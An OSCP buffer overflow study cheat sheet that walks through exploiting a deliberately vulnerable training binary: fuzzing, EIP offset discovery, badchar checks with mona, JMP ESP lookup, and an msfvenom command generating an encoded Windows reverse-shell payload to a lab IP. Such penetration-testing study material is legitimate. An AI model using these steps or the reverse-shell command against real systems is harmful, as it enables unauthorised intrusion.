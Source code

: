 ## OSCP Buffer Overflow Cheat Sheet
In this cheat sheet we will use dostackbufferoverflowgod as a vulnerable application in our exploration process (more info here: 

The binary can be downloaded here: 

Below are the download links for all the tools needed for the study:

Windows 7 Evaluation:  (you can run on Windows 10 too)
Immunity Debugger: 
Mona.py: 
All installation processes are described in the links above.

Fuzzing
We will run the connect.py script to verify the application's response.

After this step, we will run the fuzzing.py script to identify the point that the application will crash. But before that, on your Windows, attach the application to the Immunity Debugger.

Change the amount of "A" in the script until the application broken.

Offset
After finding the crash point of the application, we will identify the offset to the EIP address. For this we will generate a string with the pattern_create, from the MSF suite

msf-pattern_create -l 1024
Copy the EIP address into the Immunity Debugger and use the pattern_offset to identify this address

msf-pattern_offset -q 39654138
Now we can run poc.py and verify that our EIP has been overwritten with the character "B" (42 in hexadecimal)

Badchars
To identify badchars we will use mona with the option !mona bytearray.

Insert the mona output in the badchars.py script and run against the application to identify the badchars.

There are many ways to carry out the badchar identification process (even mona has modules for that), but the most accurate way is visually. Follow the ASCII string in the Immunity Debugger and see what points this string crashed or skipped over.

JMP ESP
After knowing the badchars of the application, we will identify the JMP ESP that will be responsible for changing the natural flow of the application and making it run the shellcode that we will insert into the stack.

The OPCODE for JMP ESP is \xff\xe4 (in assembly). Using mona we will locate which register in the application that points to this OPCODE and so we can change the flow of the application to run our shellcode, rewriting the stack from its base (EBP).

Run !mona modules and identify the unprotected modules.

Run !mona find -s "\xff\xe4" to identify which of these pointers have the OPCODE for JMP ESP

Run !mona jmp -r esp -cpb "\x00\x0a" to identify which pointers do not have the badchars found.

By this point you may have already found the correct JMP ESP address. However, if you want to check, run !mona find -s "\xff\xe4" -m dostackbufferoverflowgood.exe directly on the identified vulnerable module.

At this point you will have the base address of the stack or return address (EBP). We need to convert this address to little-endian format to use it in our code. Just invert the bytes to perform this conversion:

0x080416BF  <->  "\xBF\x16\x04\x08"
Exploit time
We can now generate our shellcode excluding the badchars found:

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.103 LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "\x00\x0a"
The EXITFUNC=thread option prevents the shellcode from crashing the application when executing our shellcode.

Now just insert the msfvenom output in our exploit.py and run it against our application to gain access to the system exploiting the Buffer Overflow
